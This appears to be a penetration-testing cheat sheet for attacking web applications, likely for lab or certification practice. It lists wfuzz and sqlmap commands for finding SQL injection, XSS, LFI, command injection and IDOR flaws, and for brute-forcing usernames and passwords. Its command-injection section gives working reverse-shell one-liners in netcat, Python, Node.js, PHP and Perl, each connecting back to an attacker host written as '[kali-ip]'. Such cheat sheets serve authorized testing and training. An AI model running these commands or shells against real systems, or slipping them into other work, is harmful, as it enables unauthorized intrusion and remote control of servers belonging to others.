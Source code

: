 # Testing vulnerabilities 

## Serve files from Kali
1. Create folder `mkdir payloads`
2. Add files to folder that you want to serve to target machine 
3. `cd` to the created folder 
4. Execute command to start serving the files:
```shell
python3 -m http.server 80
```

## XSS
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

## SQL Injection

### Fuzzing GET parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```

### Fuzzing POST parameter
```shell
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

### sqlmap GET parameter
```shell
sqlmap -u "$URL/index.php?id=1"
```

### sqlmap POST parameter
Copy POST request from Burp Suite into `post.txt` file
```shell
sqlmap -r post.txt -p parameter
```


## Directory Traversal

### Fuzzing LFI default file paths
```shell
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh 0 "$URL/index.php?id=FUZZ"
```

### Fuzzing LFI app specific files
Create two wordlists:
1. Containing paths (paths.txt):
   ../
   ../../
   etc.
2. Containing custom files related to the web technology used (files.txt): 
   application.properties
   applitcation.yml
```shell
wfuzz -w paths.txt -w files.txt --hh 0 "$URL/index.php?id=FUZZFUZ2Z"
```

## XXE

### Fuzzing XXE 
Wordlist to use in Burp Suite Intruder for fuzzing XXE: `/usr/share/seclists/Fuzzing/XXE-Fuzzing.txt`

## Server-side Template Injection 

### Fuzzing SSTI 
```plaintext
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

## Command Injection 

### Fuzzing command injection 
```shell
wfuzz -c -z file,"/usr/share/payloadsallthethings/Command Injection/Intruder/command-execution-unix.txt" --sc 200 "$URL/index.php?parameter=idFUZZ"
```

### Setup reverse shell listener 
```shell
nc -nlvp 4242
```

### Reverse shell Netcat 
```shell
/bin/nc -nv [kali-ip] 4242 -e /bin/bash
```

### Reverse shell Python 
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[kali-ip]",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Reverse shell Node.js 
```shell
echo "require('child_process').exec('nc -nv [kali-ip] 4242 -e /bin/bash')" > /var/tmp/shell.js ; node /var/tmp/shell.js
```

### Reverse shell PHP
```php
php -r '$sock=fsockopen("[kali-ip]",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("[kali-ip]",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Reverse shell Perl
```shell
perl -e 'use Socket;$i="[kali-ip]";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## IDOR 

### Static file IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ.txt"
```

### ID based IDOR 
```shell
wfuzz -c -z range,1-100 --hc 404 "$URL/index.php?doc=FUZZ"
```

## Brute forcing 

### Users discovery

```shell
wfuzz -c -z file,/usr/share/SecLists/Usernames/top-username-shortlist.txt --hc 404,403 "$URL/login.php?user=FUZZ"
```

### Password discovery
```shell
wfuzz -c -z file,/usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt --hc 404,403 -d "username=admin&password=FUZZ" "$URL/login.php"
```